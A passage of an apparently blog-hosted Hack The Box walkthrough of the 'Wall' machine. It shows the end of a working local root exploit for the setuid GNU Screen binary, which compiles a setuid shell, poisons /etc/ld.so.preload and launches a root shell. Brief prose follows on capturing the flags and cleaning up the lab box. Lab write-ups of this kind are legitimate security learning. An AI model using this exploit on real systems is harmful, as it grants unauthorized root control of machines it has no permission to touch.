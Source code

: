     setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
{% endhighlight %}

<p>Moved the script over to Wall and kicked it off to see if we can successfully privesc to root.</p>

<p>
<img src="{{ '/assets/htb-wall/root-initialshell.PNG' | relative_url }}">
</p>

<p>And with that we had access to our root.txt flag and could easily step to the user.txt flag as well.</p>

<p>
<img src="{{ '/assets/htb-wall/root-owned.PNG' | relative_url }}">
</p>

<h1>Extra fun</h1>

<p>Unfortunately as a result of the privesc exploit there were a lot of remnants left on the machine. As a final act made sure to clean up after myself not to ruin anyone else's experience that happened to stumble upon these.</p>

<p>
<img src="{{ '/assets/htb-wall/root-cleanup.PNG' | relative_url }}">
</p>